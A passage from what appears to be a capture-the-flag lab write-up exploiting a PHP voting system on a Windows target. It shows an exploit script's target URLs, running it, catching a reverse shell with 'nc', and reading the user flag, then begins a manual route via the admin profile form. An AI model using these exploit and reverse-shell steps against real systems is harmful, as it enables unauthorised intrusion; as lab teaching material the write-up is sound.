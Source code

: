     
    
    INDEX_PAGE = f"http://{IP}/votingsystem/admin/index.php"    
    LOGIN_URL = f"http://{IP}/votingsystem/admin/login.php"
    VOTE_URL = f"http://{IP}/votingsystem/admin/voters_add.php"
    CALL_SHELL = f"http://{IP}/votingsystem/images/shell.php" 
    

I’ll remove `/votingsystem` from each and save the script.

#### Success

With `nc` still listening on TCP 443 (with `rlwrap` to make the Windows shell
better), I’ll run the updated script:

    
    
    oxdf@parrot$ python 49445.py 
    Start a NC listener on the port you choose above and run...
    Logged in
    Poc sent successfully
    

It hangs there, but then there’s a connection to `nc` with a shell:

    
    
    oxdf@parrot$ rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 56061
    b374k shell : connected
    
    Microsoft Windows [Version 10.0.19042.867]
    (c) 2020 Microsoft Corporation. All rights reserved.
    
    C:\xampp\htdocs\omrs\images>whoami
    love\phoebe
    

And I can grab the first flag from the user’s desktop:

    
    
    C:\Users\Phoebe\Desktop>type user.txt
    69e87892************************
    

### RCE Manually

Once logged in, there’s not a ton to see:

![image-20210721150016714](https://0xdfimages.gitlab.io/img/image-20210721150016714.png)

Clicking around the panels didn’t lead to anything interesting. However,
clicking on the logged in user’s name, Neovic Devierte, there’s an option to
update:

![image-20210721151055335](https://0xdfimages.gitlab.io/img/image-20210721151055335.png)

Clicking that brings up a form to update the admin profile:

![image-20210721151126213](https://0xdfimages.gitlab.io/img/image-20210721151126213.png)
